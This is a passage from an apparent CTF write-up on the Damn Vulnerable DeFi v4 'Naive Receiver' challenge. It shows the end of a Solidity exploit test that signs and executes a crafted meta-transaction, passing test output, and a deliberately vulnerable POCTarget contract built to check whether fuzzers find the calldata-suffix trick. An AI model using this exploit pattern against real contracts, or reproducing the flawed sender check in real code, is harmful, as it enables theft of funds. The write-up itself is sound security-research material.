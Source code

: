 ```solidity
    );
    (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
    bytes memory signature = abi.encodePacked(r, s, v);
    require(forwarder.execute(request, signature));
}
```
Since we crafted the request ourselves, because we couldn't use calldata from Halmos for obvious reasons - I just copied this request from [here](https://medium.com/@opensiddhu993/challenge-2-naive-receiver-damn-vulnerable-defi-v4-lazy-solutions-series-8b3b28bc929d) by [@siddharth9903](https://github.com/siddharth9903) :).

```javascript
$ forge test -vv --mp test/naive-receiver/NaiveReceiver.t.sol
...
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 2.53ms (1.50ms CPU time)
```
Did it!
## Compare with fuzzing
We can find foundry-based, echidna-based and meduza-based solutions to this problem [here](https://github.com/devdacian/solidity-fuzzing-comparison/tree/main/test/01-naive-receiver).
However, I haven't found any solutions for the updated version of Naive-receiver (v4). The fact is that a second bug was added in the new version, which is tied precisely to the calldata craft and in **"Truster"** it almost became a blocker. Therefore, let's check whether there are fuzzers at all are able to work out the following logic.
### Target
First, write this POCTarget contract:
```solidity
// SPDX-License-Identifier: MIT

pragma solidity =0.8.25;

contract POCTarget {
    uint256 public a;
    
    constructor() {
        a = 0;
    }

    function proxycall (bytes calldata data) public {
        address(this).call(data);
    }

    function changea () public {
        if (msg.sender != address(this)) {
            revert();
        }
        if (address(bytes20(msg.data[msg.data.length - 20:])) == address(this)) {
            a = 1;
        }
    }
}
```
If the fuzzer supports such logic, it will find a counterexample where a==1.
### Foundry
```solidity
// SPDX-License-Identifier: MIT

pragma solidity =0.8.25;

import "./POCTarget.sol";
import {Test, console} from "forge-std/Test.sol";

```
